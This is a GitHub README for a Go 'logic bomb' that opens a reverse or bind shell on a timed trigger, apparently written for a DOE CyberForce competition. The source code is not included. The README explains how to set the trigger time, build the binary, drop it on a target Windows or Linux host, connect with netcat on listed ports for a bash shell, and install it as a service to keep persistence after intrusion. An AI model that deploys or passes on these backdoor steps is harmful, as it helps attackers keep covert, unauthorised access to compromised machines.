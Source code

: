 # logicbomb-reverse-shell
Description:

This is a GO-based logic-bomb script written by me for the DOE CyberForce competition 2019 to spawn a reverse shell by opening random network ports.

Usage:

1. Change the epoch timestamp in the script. Go to www.epochconverter.com and input the CORRECT execution time in your preferred local time/GMT and replace the epoch stamp by your newly created time----Line-->'if timeNow > newtime'. You can also slice up and change the portNos in this script differently and accoding to your desired usage.
2. Shoot up the terminal and 'go build logicbomb.go'
3. Place the created binary file into your desired target location path of windows/Linux.
In Linux,
4. Open up another terminal and "nc -l 'target_ip' 7864/7777/7783/8348/8677/8999". This will spawn a bash shell and you are in!
Check whoami, pwd, ls, ifconfig.

You can also bind this as a service file in order to avoid using '&' while building the file.

Note:
Initial Machine Access Required: yes

This shell should be used to maintain foothold/persistence or for post-exploitation once an attacker gains initial entry.

To Do:

Work more on a user based priviledge esclation technique.

If you have any questions, please email me
shail.patel@nrel.gov

